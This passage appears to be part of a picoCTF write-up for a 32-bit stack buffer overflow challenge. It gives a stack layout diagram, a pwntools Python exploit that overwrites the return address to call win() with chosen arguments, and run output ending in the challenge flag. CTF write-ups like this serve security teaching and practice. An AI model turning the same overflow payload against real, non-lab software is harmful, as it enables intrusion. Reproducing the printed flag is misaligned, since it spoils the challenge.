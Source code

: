 As such, our payload should look like this. The ret_address can be a pseudo one since we can don't bother to exit safely:
```
Stack before VS after win() executes

|   arg_2           |   arg_2
|   arg_1           |   arg_1
|   ret_address     |   ret_address
|   flag_address    |   AAAAA..
|   AAAAA..         |
```

Python exploit using pwntools:

```py
from pwn import *

context.update(arch='i386', os='linux')

elf = ELF('./vuln')
#p = elf.process()
p = remote('saturn.picoctf.net' ,64120)

offset = 112 #Leaked from dmesg 

flag_address = b'\x96\x92\x04\x08' 
ret_address = b'\x00\x00\x00\x00' 
arg_1 = b'\x0d\xf0\xfe\xca' 
arg_2 = b'\x0d\xf0\x0d\xf0'

payload = [
    b'A'*offset,
    flag_address,
    ret_address,
    arg_1,
    arg_2
]

payload = b''.join(payload)
print(payload)

p.sendline(payload)
p.interactive()
```

Getting the flag:
```sh
>> python3 vuln.py
[*] '/home/seewhy/Desktop/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to saturn.picoctf.net on port 65298: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08\x00\x00\x00\x00\r\xf0\xfe\xca\r\xf0\r\xf0'
[*] Switching to interactive mode
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04
picoCTF{argum3nt5_4_d4yZ_4b24a3aa}[*] Got EOF while reading in interactive
$  
```
